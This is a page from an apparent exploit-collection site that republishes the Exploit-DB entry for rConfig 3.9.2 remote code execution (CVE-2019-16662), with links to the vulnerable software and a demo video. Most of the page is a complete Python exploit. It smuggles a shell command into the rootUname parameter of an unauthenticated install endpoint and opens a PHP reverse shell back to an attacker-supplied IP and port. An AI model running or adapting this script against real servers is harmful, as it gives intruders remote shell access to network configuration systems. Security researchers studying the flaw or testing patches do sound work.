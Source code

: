 ```yaml
---
description: 'https://awesome.hackpuntes.com/exploit-db/rconfig-3.9.2-remote-code-execution'
---
```


# rConfig 3.9.2 - Remote Code Execution

{% embed url="https://www.exploit-db.com/exploits/47555" %}

### FILES

{% file src="../.gitbook/assets/rconfig-3.9.2.zip" caption="Vulnerable software" %}

### POC

{% embed url="https://www.youtube.com/watch?v=uZbh-j5HvO4" %}



### ORIGINAL

```text
# Exploit Title: rConfig 3.9.2 - Remote Code Execution
# Date: 2019-09-18
# Exploit Author: Askar
# Vendor Homepage: https://rconfig.com/
# Software link: https://rconfig.com/download
# Version: v3.9.2
# Tested on: CentOS 7.7 / PHP 7.2.22
# CVE : CVE-2019-16662

#!/usr/bin/python

import requests
import sys
from urllib import quote
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

if len(sys.argv) != 4:
    print "[+] Usage : ./exploit.py target ip port"
    exit()

target = sys.argv[1]

ip = sys.argv[2]

port = sys.argv[3]

payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i <&3 >&3 2>&3");'#'''.format(ip, port))

install_path = target + "/install"

req = requests.get(install_path, verify=False)
if req.status_code == 404:
    print "[-] Installation directory not found!"
    print "[-] Exploitation failed !"
    exit()
elif req.status_code == 200:
    print "[+] Installation directory found!"
url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

print "[+] Triggering the payload"
print "[+] Check your listener !"

requests.get(url_to_send, verify=False)


rConfig-preauth.png
```


